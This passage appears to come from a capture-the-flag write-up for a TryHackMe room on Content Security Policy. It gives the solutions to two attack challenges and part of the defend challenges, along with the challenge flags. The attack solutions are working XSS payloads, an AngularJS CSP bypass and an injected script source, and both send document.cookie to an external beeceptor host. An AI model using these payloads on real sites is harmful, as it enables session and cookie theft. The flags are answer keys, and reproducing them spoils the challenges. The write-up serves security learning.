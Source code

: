 `GET /flag=THM%7BN0_JSONP_D0mains_Plz%7D`

`THM{N0_JSONP_D0mains_Plz}`

6. Flag for attack-6

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>{{$on.curry.call().document.location='https://stroke.free.beeceptor.com/' + $on.curry.call().document.cookie}}</div>
```

`GET /flag=THM%7BTrust_N0_CDN%7D`

`THM{Trust_N0_CDN}`

7. Flag for attack-7

```html
<script src="/'; new Audio('https://stroke.free.beeceptor.com/' + document.cookie); '"></script>
```

`GET /flag=THM%7BTh1s_4udio_S0unds_N1ce%7D`

`THM{Th1s_4udio_S0unds_N1ce}`

## Task 8 CSP Sandbox :: Defend challenges

To deploy the machine, go to the CSP Sandbox task.

Defend challenges require you to defend the website from XSS attacks by creating a CSP header that blocks them, whilst allowing the legitimate scripts to execute.

1. What is the flag for defend-1?

```
Welcome to defend-1!
The attackers are trying to XSS our admins! Quick, write a CSP policy that only allows the scripts we use!
(You can view our allowed scripts by checking the source code of this webpage.)
The attackers have sent the following:
You have successfully defended the server against attackers!
Here's your reward: THM{N0_0utside_S0urces} 
```

`THM{N0_0utside_S0urces}`

2. What is the flag for defend-2?

```
Welcome to defend-2!
The attackers are trying to XSS our admins! Quick, write a CSP policy that only allows the scripts we use!
(You can view our allowed scripts by checking the source code of this webpage.)
The attackers have sent the following:
You have successfully defended the server against attackers!
Here's your reward: THM{M4k3_Sure_Y0ur_N0nce_1s_R4ndom} 
```
